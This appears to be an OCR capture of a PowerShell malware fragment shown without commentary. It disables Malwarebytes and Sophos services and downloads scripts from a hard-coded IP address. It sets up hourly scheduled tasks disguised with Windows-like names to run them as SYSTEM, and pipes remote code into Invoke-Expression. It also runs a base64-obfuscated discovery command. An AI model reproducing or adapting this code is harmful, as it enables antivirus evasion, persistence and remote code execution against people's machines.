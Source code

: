 ```powershell
    }
    

    $servicesToStop = "MBAMService", "MBAMProtection", "*Sophos*"
    foreach ($service in $servicesToStop) {
        Get-Service | Where-Object { $_.DisplayName -like $service } | ForEach-Object {
            Stop-Service $_ -ErrorAction SilentlyContinue
            Set-Service $_ -StartupType Disabled -ErrorAction SilentlyContinue
        }
    }
}


Function CleanerEtc {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\ProgramData\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create | Out-Null
    Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/ichigo-lite.ps1'))
}


Function CleanerNoPriv {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\Users\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433529325-1142214968-1237" /sc HOURLY /f /mo 3 /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass C:\Users\del.ps1" | Out-Null
}

$scriptUrl = "http://87.96.21.84/del.ps1"

if (Test-URL -url $url) {
    Write-Host "Connection to $url successful. Proceeding with execution."
    

    if (Test-ScriptURL -scriptUrl $scriptUrl) {
        Write-Host "Script at $scriptUrl is reachable."

        if ($priv) {
            CleanerEtc

            $encodedDiscovery = "SW52b2tlLUV4cHJlc3Npb24gIndob2FtaSI="
            $decodedDiscovery = [System.Convert]::FromBase64String($encodedDiscovery)
            $commandDiscovery = [System.Text.Encoding]::UTF8.GetString($decodedDiscovery)
            powershell -exec bypass -w 1 $commandDiscovery

            Write-Host "Privilege level: SYSTEM"

        } else {
            CleanerNoPriv
            Write-Host "Privilege level: User"
        }
    } else {
        Write-Host "Script at $scriptUrl is not reachable. Terminating."
        exit
    }
} else {
    Write-Host "Connection to $url failed. Terminating."
    exit
}
```